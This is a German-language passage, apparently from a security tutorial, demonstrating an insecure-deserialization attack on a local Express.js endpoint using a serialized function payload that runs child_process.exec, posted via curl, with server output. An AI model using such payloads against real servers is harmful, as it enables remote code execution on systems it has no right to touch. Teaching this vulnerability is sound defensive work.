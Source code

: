 \begin{verbatim}
$ curl -X POST -d "fubar={\"todo\":\"some string\"}" http://localhost:3000/api/deserialize

# Ausgabe am Server:
Server started! (Express.js)
serialized normal object: {"todo":"some string"}
serialized attack code: {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}

{ todo: 'some string' }
\end{verbatim}

In Javascript kann eine Klasse/Objekt auch eine Funktion als Element besitzen. Folgende Klasse inkludiert z.B. unter dem Namen ,,todo'' nicht ein Attribut, sondern eine ausführbare Funktion:

\begin{verbatim}
	 	// Beispiel eines serialisierten Objekts mit einer aufrufbaren Funktion
	  const todo = {
			todo : function() {
				// child_process kann verwendet werden um eine ausführbare Datei aufzurufen
				require('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})
			}
		};
\end{verbatim}

Wird diese Klasse serialisiert, wird folgender serialisierter Text erstellt:

\begin{verbatim}
{"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}
\end{verbatim}

Dieser inkludiert das Ausführen eines Befehls (,,ls /bin'') in der Hoffnung, dass beim deserialisieren dieser Befehl am Server aufgerufen werden würde. Dieses Kommando wird nun ebenso über curl an den Server übertragen:

\begin{verbatim}
# Die Zeichen \ und $ mussten teilweise maskiert werden
$ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}\"}" http://localhost:3000/api/deserialize

# Ausgabe am Server:

{ todo: [Function (anonymous)] }
\end{verbatim}

Das Objekt wurde deserialisiert (inkl. der Methode mit dem Schadcode), würde diese Methode während der Request-Abarbeitung aufgerufen werden, würde unser Kommando am Server exekutiert werden. Wir können diesen Exploit noch verbessern indem wir durch Anhängen von ,,()'' nicht nur eine Funktion definieren, sondern diese auch direkt aufrufen. Dies würde folgendem serialiserten String bzw. folgendem Curl-Aufruf entsprechen:

